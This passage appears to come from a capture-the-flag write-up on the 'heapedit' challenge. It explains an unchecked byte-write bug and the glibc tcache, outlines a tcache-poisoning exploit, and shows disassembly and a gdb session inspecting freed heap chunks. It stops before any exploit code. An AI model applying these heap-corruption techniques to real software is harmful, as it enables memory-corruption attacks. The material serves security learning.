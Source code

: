 Specifically, the problematic line lies in ` local_a0[local_a8] = local_a9` which allows an attacker to write a single byte `local_a9` to anywhere in memory using an offset `local_a8` from a base pointer `local_a0`. This offset goes unchecked and can be positive or negative and as large or small as the attacker needs it to be. For this exploit, it allows us to write into the heap and control heap metadata, specifically the tcache. 

The tcache (thread-cache) is a per-thread free list where recently freed chunks get placed in a bin based on their size, as each bin holds chunks of specific size ranges. When there is a call to `malloc`, it will first search through the tcache as an optimization. Any calls to `malloc` with the same size of a recently freed chunk placed on the tcache can quickly find and remove the chumk from the tcache, reducing a lot of overhead.


## Exploitation

**Exploit overview**: the exploit uses an arbitrary byte overwrite to perform tcache poisoning, modifying the tcache freelist in order to control the address that malloc will return.

From the objdump, we can see the addresses of the two calls to `free()` in `main`:

```
$ objdump -d heapedit
<snip>
0000000000400807 <main>:
  400807:       55                      push   %rbp
  400808:       48 89 e5                mov    %rsp,%rbp
  40080b:       48 81 ec c0 00 00 00    sub    $0xc0,%rsp
  400812:       89 bd 4c ff ff ff       mov    %edi,-0xb4(%rbp)
  400818:       48 89 b5 40 ff ff ff    mov    %rsi,-0xc0(%rbp)
  40081f:       64 48 8b 04 25 28 00    mov    %fs:0x28,%rax
<snip>
...
<snip>
  4009a3:       e8 d8 fc ff ff          call   400680 <free@plt>
  4009a8:       48 8b 45 80             mov    -0x80(%rbp),%rax
  4009ac:       48 89 c7                mov    %rax,%rdi
  4009af:       e8 cc fc ff ff          call   400680 <free@plt>
  4009b4:       c7 85 60 ff ff ff 00    movl   $0x0,-0xa0(%rbp)
<snip>
...
<snip>
```
By setting breakpoints just after these two calls to `free()`, we can examine the `heap` and `tcache bin` contents: 
```
<snip>
(gdb) b *0x4009a8
Breakpoint 1 at 0x4009a8
(gdb) r
...
[#0] Id 1, Name: "heapedit", stopped 0x4009a8 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────trace ────
[#0] 0x4009a8 → main()
(gdb) heap bins tcache
────────────────────────────────────────────────────────────── Tcachebins for thread 1 ──────────────────────────────────────────────
Tcachebins[idx=7, size=0x90, count=1] ← Chunk(addr=0x603800, size=0x90, flags=PREV_INUSE)
(gdb) x/s 0x603800 + 0x10
0x603810:     "lag is: "
```
At this point in the `gdb` session, we're at a breakpoint right after the very first free. By running `heap bins tcache`, we can see that the recently freed chunk has ended up in the tcache bin, and it's contents are the string which contains the flag. 
